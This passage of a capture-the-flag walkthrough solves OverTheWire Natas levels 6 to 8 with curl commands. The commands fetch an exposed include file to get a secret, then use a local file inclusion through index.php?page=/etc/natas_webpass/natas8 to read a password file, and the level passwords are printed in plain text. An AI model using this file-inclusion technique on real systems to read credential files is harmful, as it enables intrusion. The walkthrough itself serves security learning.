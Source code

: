 ```bash
curl --silent --user natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org/includes/secret.inc
```

Now, copy the secret key `FOEIUWGHFEEUHOFUOIU` and input it into the natas6 form or use `curl` 

```bash
curl --silent --user natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 --data "secret=FOEIUWGHFEEUHOFUOIU&submit=Submit+Query" http://natas6.natas.labs.overthewire.org/
```

```bash
curl --silent --user natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 --data "secret=FOEIUWGHFEEUHOFUOIU&submit=Submit+Query" http://natas6.natas.labs.overthewire.org/ | grep "natas7"
```

## Level 7

```bash
curl --silent --user natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 http://natas7.natas.labs.overthewire.org/
```

Notify the line  

```html
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
</div>
```

Try to substitute the url endpoint `index.php?page=` + `etc/natas_webpass/natas8`   

```bash
curl --silent --user natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 http://natas7.natas.labs.overthewire.org/index.php?page=etc/natas_webpass/natas8
```

&rarr; failed  
Try again with `index.php?page=/etc/natas_webpass/natas8`

```bash
curl --silent --user natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
```

Got the password for the next level `DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe`

## Level 8

```bash
curl --silent --user natas8:DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe http://natas8.natas.labs.overthewire.org/
```

